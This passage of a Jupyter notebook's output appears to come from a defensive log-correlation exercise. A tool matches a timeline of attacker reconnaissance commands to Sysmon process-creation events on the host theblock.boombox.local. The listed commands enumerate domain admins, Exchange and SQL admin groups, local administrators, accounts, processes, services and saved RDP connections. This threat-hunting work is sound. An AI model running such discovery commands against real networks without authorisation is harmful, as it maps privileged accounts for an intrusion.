[DEBUG] [03:29:15.415] [INFO] Entry 6: 2025-05-04 11:41:29, totem: 'net group /domain...'
[DEBUG] [03:29:15.415] [INFO] Searching for totem matches: EventID 1, Computer theblock.boombox.local
[DEBUG] [03:29:15.415] [INFO] Time window filtering: 2025-05-04 11:38:29 to 2025-05-04 11:44:29
[DEBUG] [03:29:15.443] [INFO] Events after computer/eventid/time filter: 93
[DEBUG] [03:29:15.445] [INFO] Totem matches found: 2
[DEBUG] [03:29:15.445] [INFO] Multiple Type 1 matches - selected oldest within time window: 2025-05-04 11:41:29.1570



In [186]:
# Process Entry 6
entry_6_result = process_individual_entry(
    entry_id=6,
    method_type="type1",
    time_window_before=180,
    time_window_after=180,
    show_arrows=False,
    enable_recursive=True
)


🔍 PROCESSING ENTRY 7
📋 Entry Information:
   Command: net group "domain admins" /domain...
   Finished Time: 2025-05-04 11:42:32.000000
   Computer: theblock.boombox.local
   Suggested EventID: 1

🎯 Detection Parameters:
   Method Type: type1
   EventID: 1
   Search Column: CommandLine
   Search Value: net group "domain admins" /domain...
   Time Window: -180s to +180s
   Recursive Tracing: True

🔍 Performing zero-level detection...
[DEBUG] [03:29:16.303] [INFO] Starting detection for Entry 7
[DEBUG] [03:29:16.303] [INFO] Entry 7: 2025-05-04 11:42:32, totem: 'net group domain admins /domain...'
[DEBUG] [03:29:16.303] [INFO] Searching for totem matches: EventID 1, Computer theblock.boombox.local
[DEBUG] [03:29:16.304] [INFO] Time window filtering: 2025-05-04 11:39:32 to 2025-05-04 11:45:32
[DEBUG] [03:29:16.332] [INFO] Events after computer/eventid/time filter: 91
[DEBUG] [03:29:16.333] [INFO] Totem matches found: 2
[DEBUG] [03:29:16.334] [INFO] Multiple Type 1 matches - selected oldes



In [187]:
# Process Entry 7
entry_7_result = process_individual_entry(
    entry_id=7,
    method_type="type1",
    time_window_before=180,
    time_window_after=180,
    show_arrows=False,
    enable_recursive=True
)


🔍 PROCESSING ENTRY 8
📋 Entry Information:
   Command: net group "Exchange Trusted Subsystem" /domain...
   Finished Time: 2025-05-04 11:43:08.000000
   Computer: theblock.boombox.local
   Suggested EventID: 1

🎯 Detection Parameters:
   Method Type: type1
   EventID: 1
   Search Column: CommandLine
   Search Value: net group "Exchange Trusted Subsystem" /domain...
   Time Window: -180s to +180s
   Recursive Tracing: True

🔍 Performing zero-level detection...
[DEBUG] [03:29:17.209] [INFO] Starting detection for Entry 8
[DEBUG] [03:29:17.209] [INFO] Entry 8: 2025-05-04 11:43:08, totem: 'net group Exchange Trusted Subsystem /domain...'
[DEBUG] [03:29:17.209] [INFO] Searching for totem matches: EventID 1, Computer theblock.boombox.local
[DEBUG] [03:29:17.210] [INFO] Time window filtering: 2025-05-04 11:40:08 to 2025-05-04 11:46:08
[DEBUG] [03:29:17.238] [INFO] Events after computer/eventid/time filter: 76
[DEBUG] [03:29:17.239] [INFO] Totem matches found: 2
[DEBUG] [03:29:17.240] [INFO] M



In [188]:
# Process Entry 8
entry_8_result = process_individual_entry(
    entry_id=8,
    method_type="type1",
    time_window_before=180,
    time_window_after=180,
    show_arrows=False,
    enable_recursive=True
)


🔍 PROCESSING ENTRY 9
📋 Entry Information:
   Command: net accounts /domain...
   Finished Time: 2025-05-04 11:44:13.000000
   Computer: theblock.boombox.local
   Suggested EventID: 1

🎯 Detection Parameters:
   Method Type: type1
   EventID: 1
   Search Column: CommandLine
   Search Value: net accounts /domain...
   Time Window: -180s to +180s
   Recursive Tracing: True

🔍 Performing zero-level detection...
[DEBUG] [03:29:18.100] [INFO] Starting detection for Entry 9
[DEBUG] [03:29:18.101] [INFO] Entry 9: 2025-05-04 11:44:13, totem: 'net accounts /domain...'
[DEBUG] [03:29:18.101] [INFO] Searching for totem matches: EventID 1, Computer theblock.boombox.local
[DEBUG] [03:29:18.101] [INFO] Time window filtering: 2025-05-04 11:41:13 to 2025-05-04 11:47:13
[DEBUG] [03:29:18.128] [INFO] Events after computer/eventid/time filter: 45
[DEBUG] [03:29:18.130] [INFO] Totem matches found: 4
[DEBUG] [03:29:18.130] [INFO] Multiple Type 1 matches - selected oldest within time window: 2025-05-04 11:4



In [189]:
# Process Entry 9
entry_9_result = process_individual_entry(
    entry_id=9,
    method_type="type1",
    time_window_before=180,
    time_window_after=180,
    show_arrows=False,
    enable_recursive=True
)


🔍 PROCESSING ENTRY 10
📋 Entry Information:
   Command: net user...
   Finished Time: 2025-05-04 11:45:11.000000
   Computer: theblock.boombox.local
   Suggested EventID: 1

🎯 Detection Parameters:
   Method Type: type1
   EventID: 1
   Search Column: CommandLine
   Search Value: net user...
   Time Window: -180s to +180s
   Recursive Tracing: True

🔍 Performing zero-level detection...
[DEBUG] [03:29:18.998] [INFO] Starting detection for Entry 10
[DEBUG] [03:29:18.998] [INFO] Entry 10: 2025-05-04 11:45:11, totem: 'net user...'
[DEBUG] [03:29:18.998] [INFO] Searching for totem matches: EventID 1, Computer theblock.boombox.local
[DEBUG] [03:29:18.999] [INFO] Time window filtering: 2025-05-04 11:42:11 to 2025-05-04 11:48:11
[DEBUG] [03:29:19.028] [INFO] Events after computer/eventid/time filter: 35
[DEBUG] [03:29:19.030] [INFO] Totem matches found: 2
[DEBUG] [03:29:19.031] [INFO] Multiple Type 1 matches - selected oldest within time window: 2025-05-04 11:45:11.166000 (+0.2s from entry)
[D



In [190]:
# Process Entry 10
entry_10_result = process_individual_entry(
    entry_id=10,
    method_type="type1",
    time_window_before=180,
    time_window_after=180,
    show_arrows=False,
    enable_recursive=True
)


🔍 PROCESSING ENTRY 11
📋 Entry Information:
   Command: net localgroup administrators...
   Finished Time: 2025-05-04 11:46:00.000000
   Computer: theblock.boombox.local
   Suggested EventID: 1

🎯 Detection Parameters:
   Method Type: type1
   EventID: 1
   Search Column: CommandLine
   Search Value: net localgroup administrators...
   Time Window: -180s to +180s
   Recursive Tracing: True

🔍 Performing zero-level detection...
[DEBUG] [03:29:19.890] [INFO] Starting detection for Entry 11
[DEBUG] [03:29:19.891] [INFO] Entry 11: 2025-05-04 11:46:00, totem: 'net localgroup administrators...'
[DEBUG] [03:29:19.891] [INFO] Searching for totem matches: EventID 1, Computer theblock.boombox.local
[DEBUG] [03:29:19.891] [INFO] Time window filtering: 2025-05-04 11:43:00 to 2025-05-04 11:49:00
[DEBUG] [03:29:19.919] [INFO] Events after computer/eventid/time filter: 31
[DEBUG] [03:29:19.921] [INFO] Totem matches found: 2
[DEBUG] [03:29:19.921] [INFO] Multiple Type 1 matches - selected oldest withi



In [191]:
# Process Entry 11
entry_11_result = process_individual_entry(
    entry_id=11,
    method_type="type1",
    time_window_before=180,
    time_window_after=180,
    show_arrows=False,
    enable_recursive=True
)


🔍 PROCESSING ENTRY 12
📋 Entry Information:
   Command: netstat -na...
   Finished Time: 2025-05-04 11:47:07.000000
   Computer: theblock.boombox.local
   Suggested EventID: 1

🎯 Detection Parameters:
   Method Type: type1
   EventID: 1
   Search Column: CommandLine
   Search Value: netstat -na...
   Time Window: -180s to +180s
   Recursive Tracing: True

🔍 Performing zero-level detection...
[DEBUG] [03:29:20.788] [INFO] Starting detection for Entry 12
[DEBUG] [03:29:20.789] [INFO] Entry 12: 2025-05-04 11:47:07, totem: 'netstat -na...'
[DEBUG] [03:29:20.789] [INFO] Searching for totem matches: EventID 1, Computer theblock.boombox.local
[DEBUG] [03:29:20.789] [INFO] Time window filtering: 2025-05-04 11:44:07 to 2025-05-04 11:50:07
[DEBUG] [03:29:20.817] [INFO] Events after computer/eventid/time filter: 38
[DEBUG] [03:29:20.819] [INFO] Totem matches found: 4
[DEBUG] [03:29:20.819] [INFO] Multiple Type 1 matches - selected oldest within time window: 2025-05-04 11:47:05.176000 (-1.8s from 



In [192]:
# Process Entry 12
entry_12_result = process_individual_entry(
    entry_id=12,
    method_type="type1",
    time_window_before=180,
    time_window_after=180,
    show_arrows=False,
    enable_recursive=True
)


🔍 PROCESSING ENTRY 13
📋 Entry Information:
   Command: tasklist...
   Finished Time: 2025-05-04 11:48:06.000000
   Computer: theblock.boombox.local
   Suggested EventID: 1

🎯 Detection Parameters:
   Method Type: type1
   EventID: 1
   Search Column: CommandLine
   Search Value: tasklist...
   Time Window: -180s to +180s
   Recursive Tracing: True

🔍 Performing zero-level detection...
[DEBUG] [03:29:21.497] [INFO] Starting detection for Entry 13
[DEBUG] [03:29:21.497] [INFO] Entry 13: 2025-05-04 11:48:06, totem: 'tasklist...'
[DEBUG] [03:29:21.497] [INFO] Searching for totem matches: EventID 1, Computer theblock.boombox.local
[DEBUG] [03:29:21.498] [INFO] Time window filtering: 2025-05-04 11:45:06 to 2025-05-04 11:51:06
[DEBUG] [03:29:21.525] [INFO] Events after computer/eventid/time filter: 34
[DEBUG] [03:29:21.526] [INFO] Totem matches found: 2
[DEBUG] [03:29:21.527] [INFO] Multiple Type 1 matches - selected oldest within time window: 2025-05-04 11:48:02.179000 (-3.8s from entry)
[D



In [193]:
# Process Entry 13
entry_13_result = process_individual_entry(
    entry_id=13,
    method_type="type1",
    time_window_before=180,
    time_window_after=180,
    show_arrows=False,
    enable_recursive=True
)


🔍 PROCESSING ENTRY 14
📋 Entry Information:
   Command: sc query...
   Finished Time: 2025-05-04 11:49:19.000000
   Computer: theblock.boombox.local
   Suggested EventID: 1

🎯 Detection Parameters:
   Method Type: type1
   EventID: 1
   Search Column: CommandLine
   Search Value: sc query...
   Time Window: -180s to +180s
   Recursive Tracing: True

🔍 Performing zero-level detection...
[DEBUG] [03:29:22.303] [INFO] Starting detection for Entry 14
[DEBUG] [03:29:22.304] [INFO] Entry 14: 2025-05-04 11:49:19, totem: 'sc query...'
[DEBUG] [03:29:22.304] [INFO] Searching for totem matches: EventID 1, Computer theblock.boombox.local
[DEBUG] [03:29:22.304] [INFO] Time window filtering: 2025-05-04 11:46:19 to 2025-05-04 11:52:19
[DEBUG] [03:29:22.332] [INFO] Events after computer/eventid/time filter: 36
[DEBUG] [03:29:22.333] [INFO] Totem matches found: 4
[DEBUG] [03:29:22.334] [INFO] Multiple Type 1 matches - selected oldest within time window: 2025-05-04 11:49:07.182000 (-11.8s from entry)
[



In [194]:
# Process Entry 14
entry_14_result = process_individual_entry(
    entry_id=14,
    method_type="type1",
    time_window_before=180,
    time_window_after=180,
    show_arrows=False,
    enable_recursive=True
)


🔍 PROCESSING ENTRY 15
📋 Entry Information:
   Command: systeminfo...
   Finished Time: 2025-05-04 11:49:48.000000
   Computer: theblock.boombox.local
   Suggested EventID: 1

🎯 Detection Parameters:
   Method Type: type1
   EventID: 1
   Search Column: CommandLine
   Search Value: systeminfo...
   Time Window: -180s to +180s
   Recursive Tracing: True

🔍 Performing zero-level detection...
[DEBUG] [03:29:22.951] [INFO] Starting detection for Entry 15
[DEBUG] [03:29:22.951] [INFO] Entry 15: 2025-05-04 11:49:48, totem: 'systeminfo...'
[DEBUG] [03:29:22.951] [INFO] Searching for totem matches: EventID 1, Computer theblock.boombox.local
[DEBUG] [03:29:22.952] [INFO] Time window filtering: 2025-05-04 11:46:48 to 2025-05-04 11:52:48
[DEBUG] [03:29:22.980] [INFO] Events after computer/eventid/time filter: 36
[DEBUG] [03:29:22.982] [INFO] Totem matches found: 2
[DEBUG] [03:29:22.982] [INFO] Multiple Type 1 matches - selected oldest within time window: 2025-05-04 11:49:46.185000 (-1.8s from ent



In [195]:
# Process Entry 15
entry_15_result = process_individual_entry(
    entry_id=15,
    method_type="type1",
    time_window_before=180,
    time_window_after=180,
    show_arrows=False,
    enable_recursive=True
)


🔍 PROCESSING ENTRY 16
📋 Entry Information:
   Command: reg query "HKEY_CURRENT_USER\Software\Microsoft\Terminal Server Client\Default"...
   Finished Time: 2025-05-04 11:50:40.000000
   Computer: theblock.boombox.local
   Suggested EventID: 1

🎯 Detection Parameters:
   Method Type: type1
   EventID: 1
   Search Column: CommandLine
   Search Value: reg query "HKEY_CURRENT_USER\Software\Microsoft\Terminal Server Client\Default"...
   Time Window: -180s to +180s
   Recursive Tracing: True

🔍 Performing zero-level detection...
[DEBUG] [03:29:23.778] [INFO] Starting detection for Entry 16
[DEBUG] [03:29:23.778] [INFO] Entry 16: 2025-05-04 11:50:40, totem: 'reg query HKEY_CURRENT_USER\Software\Microsoft\Ter...'
[DEBUG] [03:29:23.778] [INFO] Searching for totem matches: EventID 1, Computer theblock.boombox.local
[DEBUG] [03:29:23.779] [INFO] Time window filtering: 2025-05-04 11:47:40 to 2025-05-04 11:53:40
[DEBUG] [03:29:23.807] [INFO] Events after computer/eventid/time filter: 24
[DEBUG] [



In [196]:
# Process Entry 16
entry_16_result = process_individual_entry(
    entry_id=16,
    method_type="type1",
    time_window_before=180,
    time_window_after=180,
    show_arrows=False,
    enable_recursive=True
)


🔍 PROCESSING ENTRY 17
📋 Entry Information:
   Command: net user gosta /domain...
   Finished Time: 2025-05-04 11:51:18.000000
   Computer: theblock.boombox.local
   Suggested EventID: 1

🎯 Detection Parameters:
   Method Type: type1
   EventID: 1
   Search Column: CommandLine
   Search Value: net user gosta /domain...
   Time Window: -180s to +180s
   Recursive Tracing: True

🔍 Performing zero-level detection...
[DEBUG] [03:29:24.396] [INFO] Starting detection for Entry 17
[DEBUG] [03:29:24.397] [INFO] Entry 17: 2025-05-04 11:51:18, totem: 'net user gosta /domain...'
[DEBUG] [03:29:24.397] [INFO] Searching for totem matches: EventID 1, Computer theblock.boombox.local
[DEBUG] [03:29:24.397] [INFO] Time window filtering: 2025-05-04 11:48:18 to 2025-05-04 11:54:18
[DEBUG] [03:29:24.425] [INFO] Events after computer/eventid/time filter: 21
[DEBUG] [03:29:24.426] [INFO] Totem matches found: 2
[DEBUG] [03:29:24.427] [INFO] Multiple Type 1 matches - selected oldest within time window: 2025-0



In [197]:
# Process Entry 17
entry_17_result = process_individual_entry(
    entry_id=17,
    method_type="type1",
    time_window_before=180,
    time_window_after=180,
    show_arrows=False,
    enable_recursive=True
)


🔍 PROCESSING ENTRY 18
📋 Entry Information:
   Command: net group "SQL Admins" /domain...
   Finished Time: 2025-05-04 12:06:17.000000
   Computer: theblock.boombox.local
   Suggested EventID: 1

🎯 Detection Parameters:
   Method Type: type1
   EventID: 1
   Search Column: CommandLine
   Search Value: net group "SQL Admins" /domain...
   Time Window: -180s to +180s
